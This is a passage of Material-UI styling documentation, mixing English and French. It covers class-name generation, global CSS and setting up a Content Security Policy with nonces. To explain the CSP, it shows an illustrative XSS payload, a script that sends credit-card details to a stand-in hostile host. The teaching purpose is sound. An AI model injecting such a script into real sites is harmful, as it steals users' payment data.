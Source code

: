 server-side rendered styles into the `<head>` element.\n\nRefer to [this example project](https://github.com/Foso/material-ui/blob/master/examples/nextjs) for an up-to-date usage example.\n\n## Class names\n\nThe class names are generated by [the class name generator](/styles/api/#creategenerateclassname-options-class-name-generator).\n\n### Default\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Let's take the following style as an example:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nThis will generate a class name such as `makeStyles-root-123`.\n\nYou have to use the `classes` prop of a component to override the styles. The non-deterministic nature of the class names enables style isolation.\n\n- In **development**, the class name is: `.makeStyles-root-123`, following this logic:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- In **production**, the class name is: `.jss123`, following this logic:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### With `@material-ui/core`\n\nThe generated class names of the `@material-ui/core` components behave differently. When the following conditions are met, the class names are **deterministic**:\n\n- Only one theme provider is used (**No theme nesting**)\n- The style sheet has a name that starts with `Mui` (all Material-UI components).\n- The `disableGlobal` option of the [class name generator](/styles/api/#creategenerateclassname-options-class-name-generator) is `false` (the default).\n\nThese conditions are met with the most common use cases of `@material-ui/core`. For instance, this style sheet:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngenerates the following class names that you can override:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*This is a simplification of the `@material-ui/core/Button` component's style sheet.*\n\nCustomization of the TextField can be cumbersome with the [`classes` API](#overriding-styles-classes-prop), where you have to define the the classes prop. It's easier to use the default values, as described above. For example:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## CSS global\n\n### `jss-plugin-global`\n\nThe [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### Hybrid\n\nYou can also combine JSS generated class names with global ones.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## CSS prefixes\n\nJSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/Foso/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.\n\n## Politique de sécurité du contenu (CSP)\n\n### Qu'est-ce que le CSP et en quoi est-ce utile ?\n\nFondamentalement, CSP atténue les attaques XSS (Cross-Site Scripting) en obligeant les développeurs à ajouter aux listes blanches les sources de leurs ressources. Cette liste est renvoyée en tant qu'en-tête du serveur. Par exemple, disons que vous avez un site hébergé à ` https://example.com ` l'en-tête CSP ` default-src: 'self'; ` autorisera toutes les requêtes à destination de ` https://example.com/* ` et refusera tous les autres. Si une section de votre site Web est vulnérable au XSS dans laquelle une entrée d'utilisateur non échappée est affichée, un attaquant pourrait saisir quelque chose du genre :\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nCette vulnérabilité permettrait à l'attaquant d'exécuter n'importe quoi. Cependant, avec un en-tête CSP sécurisé, le navigateur ne chargera pas ce script.\n\nYou can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### Comment met-on en place un CSP?\n\nPour utiliser CSP avec Material-UI (et JSS), vous devez utiliser un \"nonce\". A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS a un [ excellent tutoriel ](https://github.com/cssinjs/jss/blob/master/docs/csp.md) comment y parvenir avec Express et React Helmet. Pour un aperçu de base, continuez à lire.\n\nUn nonce CSP est une chaîne codée en Base 64. Vous pouvez en générer un comme ceci:\n\n```js\nimport uuidv4 from 'uuid/v4';\n\nconst nonce = new Buffer(uuidv4()).toString('base64');\n```\n\nIt is very important that you use UUID version 4, as it generates an **unpredictable** string. Vous appliquez ensuite ce nonce à l'en-tête CSP. Un en-tête CSP pourrait ressembler à ceci avec le nonce appliqué:\n\n```js\nheader('Content-Security-Policy')\n  .set(`default-src 'self'; style-src: 'self'